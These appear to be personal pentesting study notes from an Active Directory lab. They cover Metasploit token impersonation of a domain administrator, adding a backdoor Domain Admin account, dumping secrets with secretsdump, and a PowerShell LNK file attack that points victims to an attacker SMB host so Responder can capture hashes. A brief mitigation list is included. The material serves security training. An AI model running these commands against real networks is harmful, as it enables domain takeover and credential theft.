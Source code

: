 from msfconsole:
`list_tokens -u`        (-u -->  user)
![[Pasted image 20240303121256.png]]
`impersonate_token MARVEL\\administrator`

how do we know that we are impersonating this user:
type shell and whoami -->      `shell`
                         `whoami`
                         ![[Pasted image 20240303121406.png]]
let's add one user:
`net user /add hawkeye Password1@ /domain`
add the user to the admin group:
`net group "Domain Admins" hawkeye /ADD /DOMAIN`

how to prove it:
open a new terminal tab
use -->  [[cheat#secretsdump]]
`<span style="background:#fff88f">secretsdump.py MARVEL.local/hawkeye:'Password1@'@172.16.214.130</span>`       (domain controller IP)

=>
<span style="color:#00b050">with this attack we have:</span>
- impersonate a domain admin
- run commands
- add user to the domain
- made it a domain admin
- compromise the domain without ever actually compromising an account outside THEPUNISHER machine

##### Mitigation
- Limit user/group token creation permission
- local admin restriction
- account tiering (categorizing customers into groups with similar characteristics and needs)


#### LNK File Attack
#AD_tool
with this attack we can:
set up a -->  watering hole (sorgente)

- let's assume we can access a file share  (es HYDRA-DC hackme)
- we want to dump a malicious file into it
=>
we can do that via Powershell:
```Powershell
$objShell = New-Object -ComObject WScript.shell 
$lnk = $objShell.CreateShortcut("C:\test.lnk") 
$lnk.TargetPath = "\\172.16.214.1\@test.png" 
$lnk.WindowStyle = 1 
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3" 
$lnk.Description = "Test" 
$lnk.HotKey = "Ctrl+Alt+T" 
$lnk.Save()
```
``
here we:
- are generating a file
- are putting the file inside the file share
- if we have [[cheat#Responder|responder]] up and the file is triggered => we can <span style="color:#00b050">capture an hash</span>
  =>
  can be useful for -->  elevate privileges
